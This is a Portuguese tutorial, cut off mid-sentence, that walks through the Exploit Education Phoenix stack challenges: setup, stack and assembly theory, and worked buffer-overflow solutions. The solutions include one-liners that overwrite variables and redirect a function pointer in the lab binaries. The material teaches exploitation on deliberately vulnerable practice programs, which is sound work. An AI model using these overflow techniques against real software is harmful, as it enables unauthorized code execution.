



Mapa
Isso nao ta pronto aaaaaaa foi mal :(
Stack
Phoenix Stack:
BoF Tradicional, Assembly,... etc
|__________ _______________ ____
| | | |
V V | V
W^X GOT e PLT | Canary
| |_________ V |
| | | PIE |
V V V | |
Ret2libC ASLR RELRO | |
| | | |
| V__ ____________V_ __V
| | |
V V V
ROP Leak Brute
____|____
| |
V V
SROP ret2dl_resolve
Fuzz ~TODO~
Heap ~TODO~
Linux Internals ~TODO~
Stack
Nesse capitulo vamos aprender sobre:
- Introdução a Assembly e conceitos relacionados!
- Buffer Overflow Clássico
- Mitigações comuns e como derrota-las:
- W^X
- ASLR
- Canary
- PIE
- RELRO
- ROP Avançado
Se encontrar algum erro, abre uma issue pf :)
Link pros desafios: Exploit Education Phoenix
Inspiracao (ingles):
Live Overflow (Mas é sobre o antigo: Protostar)
üñ•Ô∏è Prerequisitos:
- Saber alguma linguagem de programação e conceitos relacionados
üêß Opcional mas util saber
- üíæ Um pouco de C / C++ / Rust / Linguagem de n√≠vel baixo
- üêç Alguma linguagem de scripting: Python, Ruby, .....
- üêß Saber o básico de Linux
ü§ñ Setup:
- Baixar kali linux usando VM-Ware ou Virtual Box
- Baixar Qemu na VM:
sudo apt-get install qemu - Baixar a imagem QCOW2 (eu usei AMD64): Downloads Exploit Education
- Na maquina kali executar:
$ cd ~/Downloads/exploit-education-phoenix-amd64
$ chmod +x boot-exploit-education-phoenix-amd64.sh
$ ./boot-exploit-education-phoenix-amd64.sh
- NÂO USAR O CONSOLE BUGADO QUE APARECE !!! Minimiza e esquece que ele existe!
- Usa: ssh -p 2222 user@localhost # Os usuários/senha são: user/user e root/root
- Os arquivos tão em: cd /opt/phoenix/amd64
Boa Sorte! :D
üìù Descri√ß√£o
Esse nível demonstra que memoria pode ser acessada fora da sua região inicialmente alocada, como as variáveis são alocadas na stack, e que altera-las pode mudar a execução do programa.
Objetivo: Alterar a variável "changeme"
üí° Dica
$ python3 -c "print('A' * 10)"
AAAAAAAAAA
$ python3 -c "print('A' * 10)" | ./stack-zero
Conhecimento Preliminar
Buffer
Buffers são similares a arrays em outras linguagens de programação, mas possuem tamanho fixo!
Eles são definidos usando: tipo nome[tamanho]
O tipo, é do que esta sendo armazenado dentro, por exemplo:
char buf[64]; // Armazena 64 caracteres
int buf[32]; // Armazena 32 ints
Esses buffers por possuírem tamanho fixo, são armazenados na stack!
Stack
A stack é uma porção da memoria que armazena como se fosse uma pilha de pratos:
Quando você quer colocar um novo, você coloca no topo da pilha (push)
Quando você quer pegar um da pilha, você pega o do topo (pop)
O ultimo a entrar, é o primeiro a sair...
o nome desse comportamento é LIFO (Last in First Out)

A stack cresce para valores menores
Imagina que ela é um poço que começa na profundidade 15
Quando você coloca um objeto de tamanho 2 no poço:
ele vai estar apoiado na profundidade 15, e vai até a profundidade 13
Em seguida, você coloca algo de tamanho 3:
vai estar apoiado na profundidade 13, e vai até a profundidade 10
Conforme você vai adicionando itens, o endereço que eles estão vai diminuindo em valor. É meio confuso, mas com o tempo você pega o jeito.
Pra complicar um pouco mais, esses endereços tão em hexadecimal (0x0 ate 0xF, o "0x" é pra representar que o valor tá em hex).
Hex
Se vc não souber hex: Wikipedia Sistema de numeração hexadecimal . Mas resumindo, em hex você conta:
Hex: 0,1,2,...,8,9,A ,B ,C ,D ,E ,F ,10,11,12,...,19,1A,1B,1C,...,FF
Dec: 0,1,2,...,8,9,10,11,12,13,14,15,16,17,18,...,25,26,27,28,...,127
Então a base da stack é 0xFFFFFFFF e o topo 0X00000000 !
Melhorando o exemplo do poço
0x0- Topo da stack/Topo do poço
0xA ate 0x1- espaço vazio
0xD- Segundo item
0xF- Base da stack/Fundo do poço, primeiro item
üéâ Explica√ß√£o
A função main() pode estar sendo divida em 3 Partes:
- ü•û Alocando as variáveis na stack (buffer[64], changeme)
- üí• Alterar buffer[64] usando gets()
- ✅ Checando se changeme foi alterada
int main(int argc, char **argv) {
// Definir variáveis locais
struct {
char buffer[64];
volatile int changeme;
} locals;
printf("%s\n", BANNER); // Printar o banner (todo nível faz isso)
locals.changeme = 0;
gets(locals.buffer); // Alterar o buffer
if (locals.changeme != 0) { // Checar se changeme foi alterada
puts("Well done, the 'changeme' variable has been changed!");
} else {
puts("Uh oh, 'changeme' has not yet been changed");
}
exit(0);
}
Ue, changeme nunca foi alterada... Ela não deveria estar mudando!
Calma que você ja vai entender :)
ü•û 1- Alocando as variáveis na stack (buffer[64], changeme)
A variável buffer[64] tem tamanho de 64 bytes (64 letras, assumindo ASCII, um byte por letra).
A variável changeme esta marcada como volátil para prevenir que o compilador
destrua ela (pq originalmente não seria
alterada, então seria destruída para otimizar o código...
Mas nós vamos alterar ela por métodos... ~risada maléfica~ ... não convencionais hehehe).
Nossas duas variáveis (buffer[64] e changeme) são empurradas na stack.
buffer[64] (preenchido com zeros (vazio))
changeme (com o valor: 0x00)
ret - Base dessa stack
üí• 2- Alterar buffer[64] usando gets
A função gets() abre um input no terminal, e escreve o que recebeu no buffer.
O problema é que ela não checa se o valor recebido é maior que o buffer, permitindo que
você escreva fora do buffer!! D:
Ela vai começar a escrever no topo do buffer (menor endereço) e vai descendo até a base da stack.
**Stack**
buffer
[
A | Gets escreve nesse sentido
A |
A \/
...
A
]
changeme (com valor 0x00)
ret - Base dessa stack
Então, caso colocássemos 100 "A"s no buffer de tamanho 64, as variáveis nos próximos 36 endereços seriam alteradas.
Essas variáveis ficariam com o valor "41", mas pq 41?
O valor ASCII do "A" é 0x41, você pode checar o de todas letras usando:
$ man ascii
Ui, o usuário pode escrever fora memoria dele? perigoso ne! D:
É por isso que essa função está marcada como Deprecated (fora de uso).
No nosso caso, o buffer tem o tamanho de 64 bytes, se colocarmos 65 "A"s (65 bytes), o valor vai vazar desse buffer.
Isso quer dizer que antes a variável changeme tinha o valor 0x00 e agora tem o valor 0x41 !
**Stack**
buffer
[
41 | Gets escreve nesse sentido
41 |
41 \/
...
41
]
changeme (com o valor: 41)
ret - Base dessa stack
✅ 3- O programa checa se changeme foi alterada
Se foi alterada, quer dizer que a gente overflow-ou (escreveu fora) do buffer, é vitoria!!! :D
Ta, mas como a gente faz isso na prática?
python3 -c "print("A"*65)" printa 65 "A"s para o terminal
Então se a gente encaminhar esses "A"s pro programa....
Se você quer tentar resolver sozinhe, agora é a sua hora!
.
.
.
.
❌ 64 As, changeme não alterado
$ python3 -c "print('A' * 64)" | ./stack-zero
Banner
Uh oh, 'changeme' has not yet been changed.
Would you like to try again?
✅ 65 As, changeme alterado
$ python3 -c "print('A' * 65)" | ./stack-zero
Banner
Well done, the 'changeme' variable has been changed!
üÖ±Ô∏è 64 As e um B (0x42): AAAAAAAAA.....AAAB
Para demonstrar melhor esse comportamento do buffer
ser escrito em um sentido específico (pq vai ser muito importante saber disso),
vou dar outro exemplo:
python3 -c "print('A' * 64 + 'B')"
buffer [
41 | Gets escreve nesse sentido
41 |
41 \/
...
41
]
changeme (com o valor: 42) <- B = 42!!!!
ret - Base dessa stack
Os As preenchem certinho a stack, e a gente pode colocar o valor que quiser na variável!! Uhhuuu :D
Esses As só pra encher a stack são chamados de padding (traduz pra preenchimento).
Fim! :D
Ouch... isso foi um bocado de explicação, mas relaxa que daqui pra frente fica mais difícil hehehe :D
Se você chegou até aqui, você ta de parabéns !!!
Pra lembrar bem, desenha uma stack no papel, da um push nas variáveis e no buffer, mostra o sentido que o buffer escreve, e ele vazando e mudando o valor das outras variáveis...
üëæ Solu√ß√£o
$ python3 -c "print('A' * 65)" | ./stack-zero
Welcome to phoenix/stack-zero, brought to you
by https://exploit.education
Well done, the 'changeme' variable has been changed!
üéØ Objetivo
Agora o objetivo não é só alterar changeme, é alterar para um valor especifico!
Lembra aquilo de controlar o valor depois do preenchimento (padding) ?
Pois é, ele vai ser super util agora!
üí° Dicas
Ver a representação hex de cada letra:
$ man ascii
Dar um Google sobre Endianess.
üí´ Explica√ß√£o
Se lembra de que no tutorial passado a gente trocou changeme pra 41 e 42?
O que ta acontecendo por trás das cenas é que as letras estão virando a sua representação hex.
Então print("A"*5) é equivalente à print(b"\x41"*5)
Presta atenção no b"" : esse b indica que são Bytes! :D
As vezes o python3 vai reclamar de você usar valores arbitrários pra esses bytes, então você pode usar o python2 (o print não tem parênteses, mas o resto é igual):
$ python -c "print 'blablabla'"
Nesse caso, changeme ta sendo comparada com 0x496c5962
if (locals.changeme == 0x496c5962) {
puts("Well done, you have successfully set changeme
to the correct value");
O buffer tem tamanho 64 de novo, então podemos usar 64 caracteres para preenche-lo, igual na anterior! uhuuuu :D
Input
Nesse caso, o programa não ta usando o gets pra abrir um input.
Ele ta usando o argv (o que vem depois do nome do programa quando
você executa no terminal)
./stack-one teste batata
argv[0] = stack-one (o nome do programa)
argv[1] = teste
argv[2] = batata
... e assim por diante
argc é a contagem: quantas coisas tem no argv! E aqui tá checando se é menor que 2!
então no nosso caso, para mandar o input do python para o argv vai funcionar assim:
$ ./stack-one $(python -c "print b'A' * 64") o
$()executa o comando dentro dos parênteses e usa o valor retornado como input do outro!
então $(python....) vai executar, e em seguida:
./stack-one AAAAAAAAAAAAAA...
Endian
O valor de changeme tem tamanho 4 bytes, pq ele é um integer (integers são 32 ou 64 bits, então 4 ou 8 bytes). Isso quer dizer que a gente pode colocar 4 letras :D
./stack-one $(python -c "print b'A' * 64 + 'BCDE'")
Welcome to phoenix/stack-one, brought to you by exploit.education
Getting closer! changeme is currently 0x45444342, we want 0x496c5962
O programa nos diz o valor de changeme, que nos alteramos por ter overflow-ado o buffer
Ue, que esquisito, vc reparou algo de estranho?
A gente mandou BCDE (42 43 44 45) e ele colocou EDCB (45 44 43 42), por que isso?
Os computadores armazenam integers usando um sistema Little Endian (LE) ou Big Endian (BE), esses sistemas decidem como os números são representados.
Esses sistemas se referem a magnitude dos dígitos, Centena, Dezena, Unidade,...
Em um sistema BE, os numeros são representados em ordem decrescente CDU.
Em um sistema LE, os numeros são representados em ordem crescente UDC.
Por exemplo, o numero cento e vinte três:
BE: 123
LE: 321
No dia a dia, nos humanos usamos o sistema BE, mas os computadores preferem LE, então eles invertem a ordem dos 4 bytes nos numeros inteiros!
Então pra gente conseguir que changeme seja BCDE, a gente precisa passar EDCB pro computador! :D
$ ./stack-one $(python -c "print b'A' * 64 + 'EDCB'")
Welcome to phoenix/stack-one, brought to you by exploit.education
Getting closer! changeme is currently 0x42434445, we want 0x496c5962
Isso quer dizer que pra gente definir changeme = 49 6c 59 62, e completar
o desafio, a gente precisa inverter a ordem dos bytes (62 59 6c 49)! :D
Mas eu não sei que letras são equivalentes a esses numeros... e nem todo numero tem uma letra!
üåô Dica: Usando valores hex diretamente
Lembra que eu falei que letras são valores hex? A gente também pode usar os valores hex diretamente usando \x :D
Então usar b"\x41" é igual a b"A"!
$ ./stack-one $(python -c "print b'A' * 64 + b'\x62\x59\x6c\x49'")
Welcome to phoenix/stack-one, brought to you by exploit.education
Well done, you have successfully set changeme to the correct value
Yay vitoria!
Caso você queira usar as letras, voce pode também!
Então b'\x62\x59\x6c\x49' é equivalente a b'bYlI'
$ ./stack-one $(python -c "print b'A' * 64 + b'bYlI'")
Welcome to phoenix/stack-one, brought to you by exploit.education
Well done, you have successfully set changeme to the correct value
Mas e nos casos que o byte não tem um correspondente válido? Vc usa "\x" :D
Na verdade, é mais prático usar \x 99% das vezes, então vale a pena criar o habito!
üî• Solu√ß√£o
./stack-one $(python -c "print b'A' * 64 + b'bYlI'")
üéØ Objetivo
Similar à anterior, a gente precisa mudar o valor da variável changeme, mas dessa vez ao invés de usar o input ou argv, vamos usar env!
üí´ Explica√ß√£o
Nesse desafio, o programa usa getenv("ExploitEducation") para ler uma environment variable.
üå≥ Environment Variable (Variável do ambiente)
Essas variáveis são acessíveis para todos os programas executando naquela seção. E normalmente contem preferências como cores, o tipo de terminal, etcetc....
Você pode checa-las usando
$ env
Você pode definir uma até o resto da seção
$ export Nome=Valor
Você pode definir uma somente para execução daquele programa
$ Nome=Valor ./stack-two
Para nós, não faz tanta diferença se o input é pelas envs ou por outro método.
O único problema é que não podemos usar o Null Byte (0x00), pois ele é usado para indicar o final de uma string ASCII, portanto terminando nossa variável precocemente.
Overflow
Em seguida, o valor é copiado para um buffer[64] usando: strcpy(buffer, ptr). Com ptr sendo o valor da env 'ExploitEducation'.
A função strcpy, assim como gets, não checa se o valor é maior que o buffer, tornando o programa vulnerável... :(
Por ultimo, o programa checa se changeme == 0x0d0a090a
Levando em consideração que o sistema é LE: 0a 09 0a 0d
Mas pera ai, checando o manual ASCII, esses caracteres são usados para encerrar linha, não é uma letra do teclado! D:
Pois é, então vamos precisar usar os bytes diretamente.
Se você quer tentar resolver sozinhe, agora é a sua hora!
.
.
.
.
.
.
.
.
.
.
.
.
.
Eu precisei colocar em caixinhas diferentes para caber na tela :(
$ ExploitEducation=$(python -c "print b'A'*64 + b'\x0a\x09\x0a\x0d'") ./stack-two
Welcome to phoenix/stack-two, brought to you by exploit.education
Well done, you have successfully set changeme to the correct value
Uhuuu, esse foi mais fácil :D
üî• Solu√ß√£o
$ ExploitEducation=$(python -c "print b'A'*64 + b'\x0a\x09\x0a\x0d'") ./stack-two
üéØ Objetivo
Usar um pointer para retornar para uma função pre existente
üí° Dica
OBS: em Ingles! // Wikipedia Pointer
üí´ Explica√ß√£o
- O que raios são pointers
- Function pointers
- Exploit
↗️↘️ O que raios são pointers
Pointers são uma estrutura que, ao invés de armazenar dados, armazena o endereço de outra estrutura. Lembra do exemplo do poço? Que cada item tinha seu endereço na stack! Então, um pointer armazena esse endereço! :D
O pointer pode ser visto como uma placa na estrada, indicando que X cidade está em Y direção.
Colunas: Nome da Variável | Endereço | conteúdo

A variável "a" é um pointer que armazena a localização da variável "b". Coloquialmente se diz que: "a" está apontando para "b" (seta vermelha).
"a" armazena uma referencia á "b" !
"a" pode ser des-referenciada, isto é: Seguir a direção que "a" aponta, para chegar no valor de "b" ! :D
Normalmente, o caracteres "&" indica uma referência, e o caracteres "*" desreferencia aquele pointer.
Caso você tente desrefenciar um pointer que não aponta pra nada (NULL), o programa vai interromper a execução e soltar uma mensagem de erro! Ou vai ser classificado como "comportamento indefinido"! Por isso, você vai ver "Null Checks" bem frequentemente nesses desafios e em programas em geral!
ü¶Ä Function Pointers
Function pointers, ao invés de armazenar o endereço de uma variável, armazenam o endereço de uma função! :D
Sim! Funções também são armazenadas na Stack, e possuem seu endereço! Esse endereço pode ser encontrado por vários métodos:
objdump -d <programa> | grep <nome_da_função>
gdb <programa>
(gdb)> info functions
Os dois métodos serão demonstrados em breve! :D
üî• Exploit
Buffer overflow, alterando o valor de um function pointer, redirecionando a execução do programa.
Em lingua não nerd, por favor? :P
O valor que sera corrompido pelo buffer overflow indica aonde a execução do programa esta indo. Se controlamos esse valor, controlamos aonde o programa vai!
üõ∏ Analisando o programa
função complete_level() { // a função que a gente quer chamar
.......
}
função main() {
criar buffer[64];
criar fp; // um function pointer
fp = NULL; // vai ser usado para checar se ele foi alterado,
// se continuar sendo NULL, quer dizer que esta intacto.
gets(buffer) // função INSEGURA para abrir um input
if (fp) { // se fp foi alterado
fp() // chama o endereço salvo em fp como se fosse uma função
} else {
print(valor nao alterado, tente novamente)
}
exit
}
Nós queremos chamar complete_level(), para isso, faremos fp salvar o seu endereço.
E nós já sabemos como exploitar um gets() para alterar os valores depois do buffer! Então tá na hora do trabalho!
üè† Encontrando o endere√ßo da fun√ß√£o
objdump -d // Resumindo, printa pro terminal os objetos armazenados na Stack e seus endereços
( O -d é pra ativar a disassembly: Converter de machine code para algo legível )!
gdb
objdump
$ objdump -d /opt/phoenix/amd64/stack-three | grep complete_level
000000000040069d <complete_level>:
gdb
$ gdb /opt/phoenix/amd64/stack-three
---- Mensagens padrão foram removidas ----
(gdb) info functions
All defined functions:
Non-debugging symbols:
0x00000000004004b0 _init
0x00000000004004d0 printf@plt
0x00000000004004e0 gets@plt
0x00000000004004f0 puts@plt
0x0000000000400500 fflush@plt
0x0000000000400510 exit@plt
0x0000000000400520 __libc_start_main@plt
0x0000000000400530 _start
0x0000000000400546 _start_c
0x0000000000400570 deregister_tm_clones
0x00000000004005a0 register_tm_clones
0x00000000004005e0 __do_global_dtors_aux
0x0000000000400670 frame_dummy
0x000000000040069d complete_level // Mesmo endereço
0x00000000004006b5 main
0x0000000000400740 __do_global_ctors_aux
0x0000000000400782 _fini
O endereço da função é 0x000000000040069d ! :D
Presta atenção na quantidade de null bytes que precedem o endereço. Todo pointer começa com pelo menos dois null bytes, e strings terminam com 1 null byte!
Assim, impedindo atacantes (nós), de definir um pointer novo, pois quebraria a string do nosso input. Nós precisamos usar um que já esta na memoria! ( Spoiler hehehehe :D )
Como nesse desafio o pointer ja existe (fp) e nós só vamos mudar os bytes finais dele
(Inteiro escreve na direção LE, lembra? Então não vai interferir com os NULLs que vem antes)
Portanto não precisamos nos preocupar com isso nesse desafio!
üòê Cansei de teoria eu quero exploit
Se você quer tentar por conta própria, agora é sua hora de brilhar!
Lembretes:
Little Endian, o buffer tem 64 bytes,
b"\x", e o input vem pelo gets()
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
eai, brilhou? ;)
O input que vamos passar fica:
b"A"*64 # encher o buffer (padding)
+
b"\x9d\x06\x40" # 0x40069d vira "9d 06 40" em LE
Então...
$ python -c "print(b'A'*64 + b'\x9d\x06\x40')"
calling function pointer @ 0x40069d <-- chamando complete_level()
Congratulations, you've finished phoenix/stack-three :-) Well done!
Espero que você tenha gostado! :D
üî• Solu√ß√£o
$ python -c "print(b'A'*64 + b'\x9d\x06\x40')" | /opt/phoenix/amd64/stack-three
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
- üéØ Objetivo
- üõ∏ Conhecimento preliminar
- üåç Caso voc√™ tenha viajado, o que voc√™ precisa saber
- üî• Exploit
- üí´ Solu√ß√£o
üéØ Objetivo
O buffer overflow (BOF) vai nos permitir alterar o saved return pointer (SRP) e redirecionar a execução do programa.
Esse desafio está nos preparando para o próximo, no qual nos redirecionaremos a execução para o nosso próprio código, e teremos um exploit de verdade! :D
Esse tipo de exploit era viável nos anos 90, quando mecanismos de proteção não existiam. Por isso é chamado de buffer overflow clássico (ou SRP BOF,
caso você goste de siglas)! :D
Se você souber inglês, vale a pena dar uma lida nesse post de 1996 no Phrack: Smashing The Stack For Fun And Profit !
üõ∏ Conhecimento preliminar
Se tem uma seção inteira dedicada a conhecimento preliminar, eu posso te garantir que vai ser BASTANTE ! Verifique que o cinto de segurança está firme e travado, mantenha as mãos, pernas e canecas de café dentro do veículo durante todo o percurso!
3...2...1....
ü§ñ Assembly
Recursos adicionais:
x64 Cheat Sheet - PDF
Harvard CS61
Wikipedia Registers
GPR in 8086
Registadores - Introdução Engenharia Reversa
Eu pretendo fazer uma serie de tutorias dedicada à assembly (ASM), porém isso é para o futuro...
Eu vou usar sintaxe intel, pq é a melhor e se alguém te disser o contrário, a pessoa ta mentindo >:( !!!!
ASM é uma representação legível dos 0s e 1s das instruções do computador. Ela pode ser transformada em machine code (código de maquina, os 0s e 1s) usando uma ferramenta chamada assembler!
Então como você pode imaginar, é bem complicado, e a minha maneira de explicar pode não funcionar para você... Então vai com calma, le de outras fontes, assiste videos,... vai demorar um bom tempo ate ficar intuitivo, e ta tudo bem com isso :) vai no seu ritmo
üì¶ Register (Registos / Registadores)
Registers são pedaços de memória que ficam dentro do chip do processador, semelhante a memória RAM, porém extremamente rápidos e pequenos.
O seu tamanho é um dos determinantes da arquitetura (32 bits = register de 4 bytes, 64 bits = register de 8 bytes)
Esses registers são semelhantes à variáveis, no sentido que armazenam valores, podem ser alterados e lidos.
üåç General Purpose Registers (GPR) ( Registo de Prop√≥sito Geral )
Obs: muitos desses podem ser divididos em 2 partes, com metade do tamanho original. Nesse caso, se adiciona o sufixo H (High, A parte de cima) e L (Low, A parte de baixo).
Por exemplo: AX (16 bits, endereços: 0 a 15) (uma versão antiga do RAX) pode ser dividido em AL (8 bits, do 0 ao 7) e AH (8 bits, do 8 ao 15).
O propósito deles historicamente costumava ser, mas não exclusivamente era:
RAX Acumulador -> Usado para operações_lógicas ou aritméticas
RBX -> Pointer para dados
RCX Contagem -> Usado em loops e outras operações_cíclicas
RDX Dados -> Multiplicação, input/output
R8 a 15 -> você só precisa saber que eles existem
Alem disso, são usados para passar os argumentos para funções (explicação em breve)
RAX (Valor retornado)
RDI (1º parâmetro)
RSI (2º parâmetro)
RDX (3º parâmetro)
...
Para os nossos propósitos, é mais vantajoso considerar que eles só servem para armazenar valores e passar argumentos
üí´ Address Register ( armazenam endere√ßos da stack )
RSP Stack Pointer -> Aponta para o topo da stack
RBP Base Pointer -> Aponta para a base da stack
RIP Instruction Pointer -> Aponta para a instrução
que está sendo executada
üèÅ RFLAG
O register RFLAG armazena flags: sinais que indicam resultados de operações passadas. Esses sinais são 1 bit (0 ou 1)
Exemplos:
Posição Nome Descrição
0 Carry Resultado estourou o limite de um inteiro
sem sinal (o "vai-um" da matemática)
6 Zero A operação resultou em 0
11 Overflow Estourou o limite de um inteiro com sinal
ü߆ Ap√™ndice - Curiosidade : Nomenclatura hist√≥rica

Eu vou usar o RAX como exemplo!
Em computadores 8 bits, ele era chamado A (Acumulador)
Em computadores 16 bits, ele era chamado AX (Acumulador eXtendido )
Em computadores 32 bits, ele era chamado EAX e tem o tamanho de 2 AX
Em computadores 64 bits, ele é chamado RAX e tem o tamanho de 2 EAX
Para propósitos de retro-compatibilidade, nos ainda podemos usar,
por exemplo, EAX em um computador 64 bits !
Por trás das cenas, o computador interpreta EAX como a segunda metade do RAX
Então não estranhe caso alguém fale de EIP numa
arquitetura x64, pois na linguagem informal não faz diferença
Mas caso você vá analisar o register em um debugger, a diferença importa :D
⚡ Instruções
Obs: os registers foram usados aleatoriamente, pois seu propósito na realidade não é relevante para a explicação !
As instruções são o que o processador executa, por exemplo
add 0x4 0x1 -> adição 4 + 1 = 5
Na sintaxe intel, o "alvo" da operação vem primeiro e o "parâmetro" depois
Caso os dois argumentos da instrução sejam valores, a operação executara normalmente
Caso o alvo seja um register, o resultado da operação será salvo nele
add 0x4 0x1 -> adição 4 + 1 = 5
add rbp 0x10 -> rbp vira rbp + 0x10
add rbp 0x22 -> Adiciona 0x22 ao rbp
sub 0x4 0x1 -> subtração 4 - 1 = 3
Caso fosse ao contrário a ordem "alvo" "parâmetro",
o resultado seria `-3` !
sub rbp 0x10 -> rbp vira rbp - 0x10
sub rsp 0x10 -> Subtrai 0x10 de rsp
Algumas outras instruções que serão importantes
push -> Empurra o valor pro topo da Stack
pop -> Tira o valor no topo da Stack e salva no alvo
|---> pop -> Só remove o valor no topo da Stack
|---> pop rbp -> Remove o valor do topo e salva em rbp
mov -> Move o valor do parâmetro para o alvo
|---> mov rbx 0x10 -> O valor de rbx vira 0x10
|---> mov rbx rax -> O valor de rbx vira o valor de rax
|---> mov rax rbx -> O valor de rax vira o valor de rbx
Usadas no epílogo ( explicadas em breve )
ret -> retorna da função ( em essência é só um "pop rip" )
leave -> restaura o stack frame anterior ( mov rsp rbp ; pop rbp )
xor, and, ...... -> Operadores lógicos, têm o mesmo comportamento de sub e add
|---> and rbp 0x10 -> rbp vira rbp & 0x10
|---> xor rsp 0x10 -> rsp vira rsp ^ 0x10
Jumps/Pulos
jmp 0x00001234 -> Move o RIP para aquela localização incondicionalmente,
equivalente a um GOTO
test rax 0x1 ; jmpEQ 0x00001234 -> jmp equal
|---> Compara os valores; Se forem iguais da o jump
(normalmente usado em conjunto com a ZERO_FLAG)
jmple -> jmp less or equal -> Menor ou igual ≤
jmpge -> jmp greater or equal -> Maior ou igual ≥
Caso vc não saiba os operadores lógicos: Wikipedia Operador Lógico
ü¶Ñ Fun√ß√µes, Pr√≥logo e Ep√≠logo
Agora tá na hora de aprender realmente como essa tal de stack funciona, então é bom dar uma revisada, né?
☕ Revisão
- A stack é como uma pilha de pratos: último a entrar, primeiro a sair (LIFO)
- Ela cresce para valores menores:
- A memória é representada de cabeça pra baixo!
- A base fica em um endereço maior (parte de baixo)
- O topo fica em um endereço menor (parte de cima)
- Portanto, a stack cresce em direção à valores menores :D
üñºÔ∏è Stack Frame ( Moldura da Stack )
Você se lembra do RBP e RSP la da parte dos register? Eles ficam importantes agora! :D
O rbp indica a base da stack, e rsp o topo.
A região entre os dois é chamada de stack frame: um pedaço da stack :D
A stack como um todo possui vários stack frames, porém só um está ativo por vez (o indicado pelo rbp/rsp).
Para poder criar um novo ou destruir um antigo, existem procedimentos chamados Prólogo e Epílogo, respectivamente.
Obs: Quando você muda o tamanho da stack por push/pop, o RSP se ajusta automaticamente
Quando chamamos uma função(), precisamos criar um frame novo para ela por meio de um Prólogo, e salvar o endereço do frame atual. Ao retornar, esse frame será destruído com um Epílogo e o antigo será restaurado !
Para a explicação, vamos usar o seguinte pseudo-programa:
Fn print_dois(x, y) {
print(x)
print(y)
return
}
Fn main() {
x = "Ola! :D"
y = "Assembly é legal"
print_dois(x, y)
return
}
Agora vamos executar main(), x e y são definidas e nos já sabemos como isso funciona, agora vamos chamar a função, que é aonde a mágica acontece !
üîí Pr√≥logo
- Se a função receber argumentos, passar eles Chamar a função
- Salvar o frame atual
- Criar novo frame Executar a função
Se a função receber argumentos, salvar eles
Algumas arquiteturas passam os argumentos pela stack, salvando-os na stack na ordem inversa:
(x, y)
push y
push x
Mas comumente, os argumentos são passados pelos registers:
RAX (Valor retornado)
RDI (1º parâmetro)
RSI (2º parâmetro)
RDX (3º parâmetro)
...
Caso main() use um desses registers para armazenar dados para uso futuro, vai ser necessário dar um push neles, e restaura-los no epilogo
Salvar o frame atual
push RIP + 0x4 ; salva o RIP na stack, porém não o valor atual,
; e sim o endereço da próxima instrução
push RBP ; salva o RBP
Atualmente, a stack está assim
rbp main <- RSP -
rip main | Frame de
.... | main()
ret de main <- RBP -
Criar novo frame
Agora, para criar um novo frame, precisamos subir o rbp até o rsp
mov rbp rsp ; Move o valor de rsp para rbp!
; Ou melhor : rbp "anda" até o rsp
Atualmente, a stack está assim
rbp main <- RSP e RBP apontam para a mesma localização
rip main
... stack frame de main omitido
Agora, precisamos subtrair de RSP para alocar espaço na memória para essa função
A stack cresce para valores menores :)
sub rsp - 0x20 ; vamos supor que, para esse exemplo, a função precisa de 32 bytes.
; Portanto, vamos subtrair 32 bytes de RSP, para faze-lo "subir"
Atualmente, a stack está assim
... <- RSP -
Variáveis de print_dois |
... | Frame de
... | print_dois()
rbp main <- RBP -
rip main
...
Com esse método de chamar função, não importa a localização da memória de quando a função foi chamada, ela sempre vai executar da mesma maneira
Esse processo pode ocorrer muitas vezes caso uma função chame outra, no nosso exemplo, um novo frame seria criado para print(), print seria executada, e o frame destruído ao retornar. Apos print() retornar, print_dois continuara a execução normalmente! :)
O prologo então pode ser resumido em
salvar vars
call
push rip
push rbp
mov rbp rsp
sub rsp 0x1234
executar a função
üîë Ep√≠logo
O epilogo é bem mais simples que o prologo:
- Devolver memoria e restaurar RBP -> leave
- Restaurar RIP e retornar -> ret
Atualmente, a stack está assim
... <- RSP -
Instruções |
... | Frame de
... | print_dois()
rbp main <- RBP -
rip main
leave
Para devolver a memoria, precisamos mover RSP "para baixo: basta dar um mov rsp rbp ("andar" rsp até o rbp)
Atualmente, a stack está assim
...
Variáveis print dois A região não é apagada, pois consumiria processamento a toa!
... O valores ficam largados lá até uma nova função escrever por cima deles..
... Por isso que, ao analisar a stack, as vezes vemos "lixo" aleatório
... Eles pode ser ignorado pois nem está mais na stack
rbp main <- RBP e RSP - O topo da stack
rip main
Em seguida, vamos restaurar o rbp de main pop rbp
(remover o valor no topo da stack (ver acima por referencia), e coloca-lo no alvo: rbp)
--- omitido ---
rip main <- RSP (lembrando que RSP se ajusta automaticamente com push/pop)
...
... main
call print_dois
proxima instrução
... resto de main
ret de main <- RBP
ret (return)
ret vai restaurar o EIP de main com um pop rip
...
...resto de main <- RSP
call print_dois
proxima instrução <- RIP
... resto de main
ret da main <- RBP
Assim, o stack frame de main foi restaurado graças ao rbp e rip salvos ( o rip salvo é chamado de Saved Return Pointer (SRP) )
üåç Caso voc√™ tenha viajado, o que voc√™ precisa saber
Existem algumas variáveis especiais dentro do processador:
RSP Stack Pointer -> Aponta para o topo da stack
RBP Base Pointer -> Aponta para a base da stack
RIP Instruction Pointer -> Aponta para a instrução que está sendo executada
O RIP e o RBP atuais são salvos na stack quando chamamos uma função, junto das outras variáveis:
buffer[64]
uns int qualquer usado na função
....
rbp
rip
Se por um buffer overflow conseguimos alterar aqueles inteiros depois do buffer, como changeme nos exercícios anteriores, também conseguimos
